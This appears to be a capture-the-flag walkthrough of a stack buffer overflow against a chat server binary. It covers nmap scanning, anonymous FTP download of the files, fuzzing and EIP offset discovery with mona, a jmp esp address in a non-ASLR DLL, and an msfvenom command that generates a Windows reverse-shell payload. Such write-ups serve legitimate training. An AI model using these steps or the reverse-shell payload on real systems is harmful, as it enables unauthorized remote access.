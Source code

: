 # Tools
* nmap for enum  
# Knowledge

# Walkthrough
## Enumeration
The nmap default TCP scan reveals only 3 ports.  
```nmap -v -Pn -p1-65535 $TARGET_IP | tee nmap_result```  
```
	PORT     STATE SERVICE
	21/tcp   open  ftp
	3389/tcp open  ms-wbt-server
	9999/tcp open  abyss
```  
I accessed a ftp port using ftp command.
```ftp -v $TARGET_IP 21```  
I could use the default credential. (Username: anonymous / Password: )  
Found interesting files in chatserver directory.  
```
	ftp> ls
	200 PORT command successful.
	125 Data connection already open; Transfer starting.
	08-29-19  10:26PM                43747 chatserver.exe
	08-29-19  10:27PM                30761 essfunc.dll
```  

Then, I connected to a port 9999 using netcat, and it seemingly is related to chatserver.exe.  

Note that you need to use binary command before downloading chatserver.exe and essfunc.dll.  
```
	ftp> cd chatserver
	250 CWD command successful.
	ftp> binary
	200 Type set to I.
	ftp> mget *
	mget chatserver.exe? y
	200 PORT command successful.
	150 Opening BINARY mode data connection.
	226 Transfer complete.
	43747 bytes received in 1.53 secs (27.8335 kB/s)
	mget essfunc.dll? y
	200 PORT command successful.
	125 Data connection already open; Transfer starting.
	226 Transfer complete.
	30761 bytes received in 1.23 secs (24.4719 kB/s)
```

Next, to exploit this chat program using buffer overflow, you need to run it on Immunity Debugger.  
I set up Windows 7(,XP) on virtualbox, ran the program on Immunity Debugger, and connected from the host Machine.  
I tested the program by entering a number of As.  
![alt text](./images/As.png?raw=true)  
![alt text](./images/registers?raw=true)  

Fuzzing ended with sending around 2000 bytes.  
Then, I sent a cyclic pattern created by pattern_create.rb and analyzed the memory using mona to find RIP offset.  
![alt text](./images/patterns_mona.png?raw=true)  
I checked bad characters were detected, but none of \x01 ~ \xff was bad chars.  

Now that we know the EIP offset, we need to find out which address we'll store in EIP.  
By executing the following mona command on Immunity Debugger, I found essfunc.dll doesn't enable ASLR.  
![alt text](./images/ASLR.png?raw=true)  
Therefore, the address where "jump esp" instructions are located in essfunc.dll is the one we need to store in EIP.  
Modifying exploit.py so it contains the address of "jump esp" and the shellcode generated using msfvenom by the following command,  
```
msfvenom -p windows/shell_reverse_tcp LHOST=$MYIP LPORT=4444 EXITFUNC=thread -b "\x00" -f c  
```

Then, I ran ```python3 exploit.py```, I got reverse shell with admin privilege.  

